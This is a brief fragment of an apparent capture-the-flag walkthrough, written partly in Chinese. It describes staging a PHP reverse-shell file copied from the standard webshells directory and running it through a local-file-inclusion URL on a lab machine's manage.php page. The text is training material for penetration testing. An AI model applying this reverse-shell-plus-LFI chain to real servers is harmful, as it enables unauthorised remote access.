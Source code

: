 db save to /var/tmp/poc.php

![image-20221006102236093](./images/image-20221006102236093.png)

create phpshell.txt. change the ip and por.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./phpshell.txt

```

![image-20221006102120562](./images/image-20221006102120562.png)



这里无法直接使用 exploit 中rce 最后一步，只能配合 LFI 利用。

```bash
http://10.129.30.249/department/manage.php?notes=/var/tmp/poc.php
```
